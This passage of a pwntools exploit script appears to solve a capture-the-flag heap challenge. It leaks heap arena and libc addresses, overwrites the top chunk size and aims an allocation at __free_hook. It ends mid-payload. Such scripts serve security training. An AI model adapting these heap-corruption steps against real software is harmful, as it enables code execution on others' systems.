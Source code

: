 ```py
        res = self.io.recvuntil(b'Invalid index!\n', drop=True)
        self.io.unrecv(b'> ')
        return res
    
    def leak(self, index):
        self.view_deet(index)
        pre = self.io.recvuntil(b'Viewing deet\n')
        res = unpack(self.io.recvuntil(b'\nDone!\n', drop=True), 'all')
        self.io.unrecv(b'> ')
        return res

io = start()

daemon = Daemon(io)

daemon.add_deet(0x5e8)
daemon.add_deet(0x18)
daemon.add_deet(0x18)
daemon.remove_deet(0)
daemon.add_deet(3)
daemon.edit_deet(0)
daemon.sice(b'A' * 3 + b'\n')
arena = daemon.leak(0) & 0xffffffffff000000
log.info(f"arena: {hex(arena)}")

daemon.add_deet(100000)
daemon.edit_deet(3)
for _ in range(98):
    daemon.sice(b'A' * 1000)
daemon.sice(b'A' * 999 + b'\n')
daemon.add_deet(0x7c8)
daemon.sync()
daemon.filter(b"(?:){50000000}")
daemon.view_deet(3)
daemon.view_deet(3)
payload = flat({
    0x638: 0xffffffffffffffff,
})
daemon.edit_deet(4)
daemon.sice(payload[:1000])
daemon.sice(payload[1000:] + b'\n')
daemon.remove_deet(4)
daemon.add_deet(0x638)

daemon.sync()
top = 0x19e30
target = 0x880
size = ((target - top) % 2**64) - 8
daemon.add_deet(size)
daemon.add_deet(0x6f8)
daemon.add_deet(0x5c0)
libc.address = daemon.leak(6) - 0x3ebc40
log.info(f"libc: {hex(libc.address)}")

daemon.add_deet(0xa8)
daemon.sync()
daemon.filter(b"(?:){50000000}")
daemon.view_deet(3)
daemon.view_deet(3)
target = libc.symbols['__free_hook'] - 8
top = arena + 0xfd0
size = ((target - top) % 2**64) - 8
payload = flat({
```